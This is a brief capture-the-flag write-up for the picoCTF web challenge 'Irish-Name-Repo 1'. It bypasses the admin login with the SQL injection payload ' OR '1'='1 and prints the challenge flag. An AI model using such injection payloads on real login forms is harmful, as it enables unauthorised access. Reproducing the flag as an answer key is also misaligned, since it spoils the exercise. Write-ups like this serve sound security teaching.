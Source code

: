 # Irish-Name-Repo 1
### Points: 300

## Category
#### Web Exploitation

## Question
#### There is a website running at https://jupiter.challenges.picoctf.org/problem/39720/ [link](https://jupiter.challenges.picoctf.org/problem/39720/) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!
### Hint
>#### 1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
>#### 2. Try to think about how the website verifies your login.

## Solution
### Look at this website
![pico](a/01.png)
#### Go to the login page for administrators. 
![pico](a/02.png)
#### Bypass filter: 
```base
Username = admin
Password = 'OR '1'='1
```
![pico](a/03.png)
#### After logging, and retrieve the flag. 
![pico](a/2.png)

## Flag
`picoCTF{s0m3_SQL_c218b685}`